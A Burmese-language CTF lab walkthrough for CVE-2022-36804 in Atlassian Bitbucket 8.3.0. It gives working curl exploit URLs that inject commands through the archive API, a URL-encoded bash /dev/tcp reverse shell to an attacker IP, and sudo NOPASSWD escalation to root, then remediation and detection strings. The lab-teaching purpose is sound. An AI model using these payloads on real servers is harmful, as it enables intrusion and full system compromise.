

> **Responsible Use Note**  
> ဤ walkthrough သည် **authorized CTF/lab environment** အတွက်သာ ရည်ရွယ်ပါသည်။ ကိုယ်ပိုင်မဟုတ်သော system, public server, company system များတွင် ခွင့်ပြုချက်မရှိဘဲ မစမ်းသပ်ရပါ။

## 1. Machine Overview

| Item | Detail |
|---|---|
| Machine | CVE-2022-36804 Lab |
| Target Type | Standalone Web Machine |
| Main Service | Atlassian Bitbucket |
| Main Vulnerability | CVE-2022-36804 Remote Code Execution |
| Initial Access | Bitbucket archive API command execution |
| Privilege Escalation | Misconfigured `sudoers` permission |
| Final Objective | Root access and `proof.txt` |

ဒီ lab မှာ web service တစ်ခုဖြစ်တဲ့ **Atlassian Bitbucket** ကို enumerate လုပ်ပြီး version ကို identify လုပ်ပါမယ်။  
နောက်တစ်ဆင့်မှာ CVE-2022-36804 ကို အသုံးပြုပြီး command execution ရနိုင်/မရနိုင် စမ်းသပ်ပါမယ်။  
Command execution ရပြီးနောက် reverse shell ရယူပြီး `sudoers` misconfiguration ကြောင့် root privilege သို့ escalate လုပ်ပါမယ်။

---

## 2. Lab Assumptions

အောက်က value တွေကို ကိုယ့် lab environment အတိုင်း ပြောင်းသုံးပါ။

```bash
export TARGET="10.230.78.148"
export RHOST="http://$TARGET:7990"
export LHOST="192.168.49.78"
export LPORT="9090"
export PROJECT="TEST"
export REPO="test_repository"
```

| Variable | Meaning |
|---|---|
| `TARGET` | Target machine IP |
| `RHOST` | Bitbucket web URL |
| `LHOST` | Attacker machine IP |
| `LPORT` | Reverse shell listener port |
| `PROJECT` | Bitbucket project name |
| `REPO` | Bitbucket repository name |

Required tools:

```bash
nmap
curl
nc
python3
```

---

## 3. Attack Chain Summary

### Text-based attack chain

```text
Nmap scan
→ Port 7990 web service found
→ Open Bitbucket web page
→ Version disclosure: Atlassian Bitbucket v8.3.0
→ Find public project and repository
→ Test CVE-2022-36804 using archive API
→ Confirm command execution with id
→ Start netcat listener
→ Send URL-encoded bash reverse shell payload
→ Get shell as atlbitbucket
→ Check sudo permissions using sudo -l
→ NOPASSWD: ALL found
→ sudo su / sudo -i
→ Root shell
→ Read /root/proof.txt
```

## Mermaid Flowchart



### Explanation

ဒီ attack chain ရဲ့ အဓိက logic ကတော့:

- အရင်ဆုံး target မှာ ဘယ် service တွေဖွင့်ထားလဲ သိဖို့ scan လုပ်မယ်။
- Web service တွေက အများအားဖြင့် low-hanging fruit ဖြစ်နိုင်လို့ port `7990` ကို စစ်မယ်။
- Bitbucket version ကို သိရင် public exploit / CVE နဲ့ mapping လုပ်နိုင်မယ်။
- Vulnerable endpoint ကို သုံးပြီး command execution ရနိုင်မရနိုင် `id` command နဲ့ စမ်းမယ်။
- RCE confirmed ဖြစ်ရင် reverse shell payload ပို့မယ်။
- Shell ရပြီးနောက် privilege escalation အတွက် `sudo -l` စစ်မယ်။
- User မှာ `NOPASSWD: ALL` ရှိနေရင် root command ကို password မလိုဘဲ run နိုင်မယ်။

---

## 4. Enumeration Phase

### 4.1 Full TCP Port Scan

```bash
nmap -p- -sV -sC $TARGET --open
```

### What this command does

| Option | Meaning |
|---|---|
| `-p-` | TCP port 1 မှ 65535 အထိ scan လုပ်မယ် |
| `-sV` | Service version detect လုပ်မယ် |
| `-sC` | Default NSE scripts run လုပ်မယ် |
| `--open` | Open ports တွေကိုသာ ပြမယ် |

### Why we run it

Port scan လုပ်ရတဲ့ ရည်ရွယ်ချက်က target machine မှာ attacker အနေနဲ့ဝင်နိုင်တဲ့ attack surface တွေကို သိဖို့ဖြစ်ပါတယ်။

ဒီ lab မှာ တွေ့ရတဲ့ service တွေက:

```text
22/tcp    open    ssh
5701/tcp  open    unknown
7990/tcp  open    http-like service
```

### How to interpret

- `22/tcp` သည် SSH ဖြစ်ပြီး credential မရှိရင် direct login မလုပ်နိုင်သေးပါ။
- `5701/tcp` သည် unknown service ဖြစ်ပြီး နောက်မှ စစ်နိုင်ပါတယ်။
- `7990/tcp` သည် web service ဖြစ်ပြီး Bitbucket UI ဖြစ်နိုင်သည်။ Web attack surface အနေနဲ့ အရင်စစ်သင့်ပါတယ်။

---

## 5. Web Enumeration

Browser မှာ target web service ကို ဖွင့်ပါ။

```text
http://10.230.78.148:7990/
```

သို့မဟုတ် variable သုံးမယ်ဆိုရင်:

```text
http://$TARGET:7990/
```

Page ကိုကြည့်တဲ့အခါ **Atlassian Bitbucket v8.3.0** ဆိုတဲ့ version information ကို တွေ့နိုင်ပါတယ်။

### Why version information is important

Version information က attacker အတွက် အရေးကြီးတဲ့ clue ဖြစ်ပါတယ်။

ဥပမာ:

```text
Product: Atlassian Bitbucket
Version: 8.3.0
```

ဒီလို သိသွားရင်:

```text
Bitbucket 8.3.0 exploit
Bitbucket 8.3.0 CVE
CVE-2022-36804 Bitbucket
```

စသဖြင့် vulnerability research လုပ်နိုင်ပါတယ်။

Version disclosure ဆိုတာ software version ကို web page, footer, header, error page, API response တို့မှာ ဖော်ပြထားတာပါ။  
ဒီ information ကို exploit တိုက်ရိုက်မဟုတ်ပေမယ့် vulnerability mapping လုပ်ဖို့ အလွန်အသုံးဝင်ပါတယ်။

---

## 6. Vulnerability Explanation: Why CVE-2022-36804 Happens

CVE-2022-36804 သည် Bitbucket Server/Data Center ရဲ့ **archive download function** နဲ့ဆိုင်တဲ့ Remote Code Execution vulnerability ဖြစ်ပါတယ်။

Bitbucket မှာ repository archive download လုပ်တဲ့ API endpoint ရှိပါတယ်။

```text
/rest/api/latest/projects/<PROJECT>/repos/<REPO>/archive
```

ဒီ endpoint က internal side မှာ `git archive` command ကို သုံးပြီး repository archive file ပြန်ထုတ်ပေးပါတယ်။

Problem ဖြစ်တဲ့အချက်က request parameter ထဲက value တချို့ကို internal `git archive` command ထဲသို့ မလုံခြုံစွာ pass လုပ်နိုင်တာပါ။

Lab exploit မှာ `prefix` parameter ထဲက input ကို manipulate လုပ်ပြီး `--exec=$(command)` ပုံစံ command argument ထည့်နိုင်ပါတယ်။

### Vulnerable pattern

Conceptually, vulnerable behavior က ဒီလိုပုံစံဖြစ်နိုင်ပါတယ်။

```text
User input from HTTP request
→ passed into archive function
→ used as part of git archive command
→ attacker injects extra git option / command
→ server executes attacker-controlled command
```

### Why this is dangerous

Server က attacker ပို့လိုက်တဲ့ command ကို execute လုပ်နိုင်သွားရင်:

```text
id
whoami
which bash
reverse shell payload
```

စတဲ့ OS command တွေ run နိုင်ပါတယ်။

ဒီ lab မှာ command သည် Bitbucket service account ဖြစ်တဲ့:

```text
atlbitbucket
```

အနေနဲ့ execute ဖြစ်ပါတယ်။

### Analogy

ရိုးရိုး analogy နဲ့ပြောရရင်:

> User က filename ပဲပေးရမယ့်နေရာမှာ command option ပါ ထည့်ပေးလိုက်တာကို application က စစ်မထားဘဲ backend command ထဲ ထည့် run လိုက်တာဖြစ်ပါတယ်။

ဒါကြောင့် input validation မကောင်းခြင်း၊ command construction မလုံခြုံခြင်းကြောင့် RCE ဖြစ်လာပါတယ်။

---

## 7. How to Confirm the Vulnerability

အရင်ဆုံး safe command ဖြစ်တဲ့ `id` နဲ့ စမ်းပါမယ်။

### Test URL

```text
http://10.230.78.148:7990/rest/api/latest/projects/TEST/repos/test_repository/archive?filename=xxx&at=xx&path=xx&prefix=ax%00--exec=%24(id)%00--remote=origin
```

Variable version:

```bash
curl -s "$RHOST/rest/api/latest/projects/$PROJECT/repos/$REPO/archive?filename=xxx&at=xx&path=xx&prefix=ax%00--exec=%24(id)%00--remote=origin"
```

### Expected output

Response error ထဲမှာ ဒီလို output ပါနိုင်ပါတယ်။

```text
uid=1000(atlbitbucket)
```

### Why error response still means success

ဒီ vulnerability မှာ command execution ဖြစ်ပြီးနောက် `git archive` command ကိုယ်တိုင် error ဖြစ်နိုင်ပါတယ်။  
ဒါပေမယ့် response ထဲမှာ `uid=1000(atlbitbucket)` ပြလာရင် `id` command execute ဖြစ်ပြီးသားပါ။

### How to interpret

| Output | Meaning |
|---|---|
| `uid=1000(atlbitbucket)` | Command execution confirmed |
| `CommandFailedException` | Git archive failed, but command output leaked |
| No command output | Payload, project, repo, or encoding issue ဖြစ်နိုင်သည် |

---

## 8. Reverse Shell Exploitation

### 8.1 Start Netcat Listener

Attacker machine မှာ listener စတင်ပါ။

```bash
nc -nlvp 9090
```

သို့မဟုတ် variable သုံးမယ်ဆိုရင်:

```bash
nc -nlvp $LPORT
```

### Why listener is needed

Reverse shell မှာ target machine က attacker machine ဆီကို connection ပြန်လာပါတယ်။  
ဒါကြောင့် attacker side မှာ connection လက်ခံဖို့ listener ဖွင့်ထားရပါမယ်။

---

### 8.2 Prepare Bash Reverse Shell Payload

Raw payload:

```bash
bash -c 'bash -i >& /dev/tcp/192.168.49.78/9090 0>&1'
```

ဒီ payload ထဲမှာ:

| Part | Meaning |
|---|---|
| `bash -c` | Bash command တစ်ကြောင်းကို execute လုပ်မယ် |
| `bash -i` | Interactive bash shell ဖွင့်မယ် |
| `/dev/tcp/<IP>/<PORT>` | TCP connection တစ်ခုကို attacker listener ဆီ ပြန်ဖွင့်မယ် |
| `0>&1` | input/output stream တွေကို connection မှာ bind လုပ်မယ် |

### 8.3 URL-encoded Payload

HTTP URL ထဲမှာ special characters တွေရှိလို့ URL encoding လုပ်ရပါမယ်။

```text
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.49.78%2F9090%200%3E%261%27
```

### 8.4 Full Exploit URL

```text
http://10.230.78.148:7990/rest/api/latest/projects/TEST/repos/test_repository/archive?filename=xxx&at=xx&path=xx&prefix=ax%00--exec=%24(bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.49.78%2F9090%200%3E%261%27)%00--remote=origin
```

### 8.5 Curl Version

```bash
curl -s "$RHOST/rest/api/latest/projects/$PROJECT/repos/$REPO/archive?filename=xxx&at=xx&path=xx&prefix=ax%00--exec=%24(bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F$LHOST%2F$LPORT%200%3E%261%27)%00--remote=origin"
```

> Note: Some shells will not expand variables correctly inside URL-encoded payload. If it fails, manually replace `$LHOST` and `$LPORT` with real values.

---

## 9. Shell Confirmation

Listener side မှာ connection ပြန်ဝင်လာရင် ဒီလိုမြင်ရနိုင်ပါတယ်။

```text
connect to [192.168.49.78] from (UNKNOWN) [10.230.78.148]
bash: cannot set terminal process group: Inappropriate ioctl for device
bash: no job control in this shell
```

Shell ထဲမှာ စစ်ပါ။

```bash
id
whoami
hostname
pwd
```

Expected:

```text
uid=1000(atlbitbucket) gid=1000(atlbitbucket)
atlbitbucket
```

### Explanation

ဒီအဆင့်မှာ attacker က target machine ထဲကို `atlbitbucket` user အနေနဲ့ shell ရထားပါပြီ။  
ဒါဟာ root မဟုတ်သေးပါ။ Initial foothold ပဲဖြစ်ပါတယ်။

---

## 10. Optional: Stabilize the Shell

Reverse shell က unstable ဖြစ်နိုင်ပါတယ်။ Python ရှိမရှိ စစ်ပါ။

```bash
which python3
```

Python3 ရှိရင်:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

ပြီးရင် attacker terminal မှာ:

```bash
CTRL+Z
stty raw -echo; fg
reset
```

Terminal type မေးရင်:

```text
xterm
```

ပြီးရင်:

```bash
export TERM=xterm
stty rows 40 columns 120
```

### Why shell stabilization matters

Stable shell ရှိရင်:

- command output ကြည့်ရလွယ်တယ်
- `sudo`, `su`, text editor တွေ သုံးရလွယ်တယ်
- Ctrl+C, tab completion ပိုကောင်းတယ်

---

## 11. Privilege Escalation Enumeration

Initial shell ရပြီးရင် root ဖြစ်ဖို့ local privilege escalation စစ်ပါမယ်။

### 11.1 Check sudo permission

```bash
sudo -l
```

### Expected output

```text
User atlbitbucket may run the following commands on bitbucket:
    (ALL : ALL) NOPASSWD: ALL
```

### What it means

ဒီ output က အလွန်အန္တရာယ်များတဲ့ misconfiguration ဖြစ်ပါတယ်။

| Setting | Meaning |
|---|---|
| `(ALL : ALL)` | Any user/group context အနေနဲ့ run နိုင်တယ် |
| `NOPASSWD` | Password မလိုဘဲ sudo run နိုင်တယ် |
| `ALL` | Any command run နိုင်တယ် |

အဓိပ္ပါယ်က:

```text
atlbitbucket user သည် root command အားလုံးကို password မလိုဘဲ run နိုင်သည်။
```

### Why this misconfiguration happens

ဒီလို issue ဖြစ်ရတဲ့ အကြောင်းရင်းတွေက:

- Admin က testing/debugging အတွက် temporary permission ပေးပြီး မဖယ်ခဲ့ခြင်း
- Service account ကို over-privileged ပေးထားခြင်း
- Least privilege principle မလိုက်နာခြင်း
- Sudoers file review မလုပ်ခြင်း
- Production hardening မလုံလောက်ခြင်း

### Security lesson

Service account တစ်ခုသည် application run လုပ်ဖို့သာ လိုအပ်ပါတယ်။  
Root command အားလုံး run နိုင်တဲ့ permission မလိုအပ်ပါ။

---

## 12. Escalate to Root

Since `NOPASSWD: ALL` is allowed, root shell ရယူနိုင်ပါတယ်။

```bash
sudo su
```

သို့မဟုတ်:

```bash
sudo -i
```

Confirm:

```bash
id
whoami
```

Expected:

```text
uid=0(root) gid=0(root) groups=0(root)
root
```

### Explanation

`sudo -l` မှာ `NOPASSWD: ALL` တွေ့ထားတဲ့အတွက် password မလိုဘဲ root shell ရနိုင်ပါတယ်။  
ဒါဟာ exploit တစ်ခုထက် configuration weakness ဖြစ်ပါတယ်။

---

## 13. Find and Read Proof File

Root shell ရပြီးနောက် proof file ကိုရှာပါ။

```bash
find / -iname '*proof.txt*' 2>/dev/null
```

Expected:

```text
/root/proof.txt
```

Read the file:

```bash
cat /root/proof.txt
```

---

## 14. Troubleshooting

### Problem: No reverse shell received

စစ်ရန်:

```bash
ip addr
```

- `$LHOST` မှန်လား စစ်ပါ။
- VPN IP ကို သုံးရမလား စစ်ပါ။
- Listener port မှန်လား စစ်ပါ။
- Firewall block ဖြစ်နေသလား စစ်ပါ။
- URL encoding မှန်လား စစ်ပါ။

### Problem: `id` command output မပြပါ

စစ်ရန်:

- Project name မှန်လား: `TEST`
- Repository name မှန်လား: `test_repository`
- Endpoint path မှန်လား
- Target IP မှန်လား
- Bitbucket version vulnerable ဖြစ်လား
- Payload encoding မပျက်သွားလား

### Problem: `sudo -l` asks for password

ဒီ walkthrough ထဲက privilege escalation path သည် `NOPASSWD: ALL` misconfiguration ပေါ်မူတည်ပါတယ်။  
Password တောင်းနေရင် lab instance သည် မတူနိုင်ပါ သို့မဟုတ် permission မရှိနိုင်ပါ။

---

## 15. Root Cause and Remediation

### Root cause summary

| Issue | Risk |
|---|---|
| Vulnerable Bitbucket version | Remote Code Execution |
| Archive API input handling weakness | Command injection |
| Version disclosure | Easier vulnerability mapping |
| Over-privileged service account | Easy privilege escalation |
| `NOPASSWD: ALL` sudoers rule | Full root compromise |

### Recommended remediation

1. **Patch / upgrade Bitbucket immediately**  
   Vulnerable Bitbucket version ကို vendor-fixed version သို့ upgrade လုပ်ပါ။

2. **Restrict access to Bitbucket**  
   Public internet မဖွင့်သင့်ပါ။ VPN, internal network, IP allowlist စနစ်သုံးပါ။

3. **Remove dangerous sudoers rule**

   Bad example:

   ```text
   atlbitbucket ALL=(ALL:ALL) NOPASSWD: ALL
   ```

   Better approach:

   ```text
   Only allow exact required commands, if truly needed.
   ```

4. **Apply least privilege**

   Application service account ကို root-level permission မပေးသင့်ပါ။

5. **Monitor suspicious archive API requests**

   Look for suspicious parameters like:

   ```text
   %00
   --exec
   /dev/tcp
   bash -c
   ```

6. **Disable version disclosure where possible**

   Product/version information ကို public UI တွင် မဖော်ပြသင့်ပါ။

---

## 16. Key Learning Points

ဒီ lab မှာ beginner cybersecurity student အနေနဲ့ သင်ယူရမယ့် အဓိက lesson တွေက:

- Port scanning သည် attack surface ကိုသိရန် အခြေခံဆုံးအဆင့်ဖြစ်သည်။
- Version disclosure သည် exploit ရှာဖွေရာတွင် အရေးကြီးသည်။
- RCE vulnerability ကို confirm လုပ်ရာတွင် `id` command က safe and useful ဖြစ်သည်။
- Reverse shell payload သည် URL encoding မမှန်ရင် အလုပ်မလုပ်နိုင်ပါ။
- Initial shell ရတာနဲ့ root မဟုတ်သေးပါ။
- `sudo -l` သည် Linux privilege escalation enumeration အတွက် အရေးကြီးသည်။
- `NOPASSWD: ALL` သည် critical misconfiguration ဖြစ်ပြီး full system compromise ဖြစ်စေနိုင်သည်။
- Patch management နှင့် least privilege controls မရှိပါက web vulnerability တစ်ခုက root compromise အထိ ဖြစ်သွားနိုင်သည်။

---

## 17. Quick Command Reference

```bash
# Set variables
export TARGET="10.230.78.148"
export RHOST="http://$TARGET:7990"
export LHOST="192.168.49.78"
export LPORT="9090"
export PROJECT="TEST"
export REPO="test_repository"

# Enumeration
nmap -p- -sV -sC $TARGET --open

# RCE test
curl -s "$RHOST/rest/api/latest/projects/$PROJECT/repos/$REPO/archive?filename=xxx&at=xx&path=xx&prefix=ax%00--exec=%24(id)%00--remote=origin"

# Listener
nc -nlvp $LPORT

# Reverse shell trigger
curl -s "$RHOST/rest/api/latest/projects/$PROJECT/repos/$REPO/archive?filename=xxx&at=xx&path=xx&prefix=ax%00--exec=%24(bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.49.78%2F9090%200%3E%261%27)%00--remote=origin"

# Confirm shell
id
whoami

# Privilege escalation
sudo -l
sudo su
id

# Find proof
find / -iname '*proof.txt*' 2>/dev/null
cat /root/proof.txt
```

---

## 18. Final Summary

ဒီ machine မှာ compromise path က ရှင်းပါတယ်။

```text
Bitbucket v8.3.0
→ CVE-2022-36804 RCE
→ Reverse shell as atlbitbucket
→ sudoers misconfiguration
→ Root shell
→ proof.txt
```

အဓိကအားဖြင့် vulnerability တစ်ခုတည်းကြောင့် root compromise ဖြစ်တာမဟုတ်ပါ။  
Web RCE နှင့် Linux sudoers misconfiguration နှစ်ခု chain ဖြစ်သွားတာကြောင့် full compromise ဖြစ်သွားတာပါ။
